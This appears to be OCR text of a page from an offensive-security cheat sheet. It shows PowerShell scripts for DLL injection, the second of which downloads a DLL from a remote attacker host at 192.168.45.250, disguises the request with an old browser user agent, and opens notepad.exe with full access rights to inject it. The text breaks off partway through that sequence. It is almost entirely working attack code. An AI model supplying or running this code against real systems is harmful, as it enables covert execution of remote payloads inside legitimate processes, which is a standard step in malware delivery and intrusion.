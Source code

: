 ```powershell
[Kernel32]::CloseHandle($threadHandle)
[Kernel32]::CloseHandle($processHandle)

Write-Output "DLL injection successful."
```

### Powershell  Dll injection in memory

```powershell
# Define the process name and DLL URL
$processName = "notepad.exe"
$dllUrl = "https://192.168.45.250:8000/myinjection.dll"

# Load the required functions
Add-Type @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32.dll", SetLastError=true, CharSet=CharSet.Auto)]
    public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool VirtualFreeEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint dwFreeType);

    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
}
"@

# Download the DLL into memory
$webClient = New-Object System.Net.WebClient
$webClient.Headers.Add("User-Agent", "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)")
$webClient.Credentials = [System.Net.CredentialCache]::DefaultCredentials
$dllBytes = $webClient.DownloadData($dllUrl)

# Get the process ID of the target process
$process = Get-Process -Name $processName
$processId = $process.Id

# Open the process with all access rights
$processHandle = [Win32]::OpenProcess(0x1F0FFF, $false, $processId)
```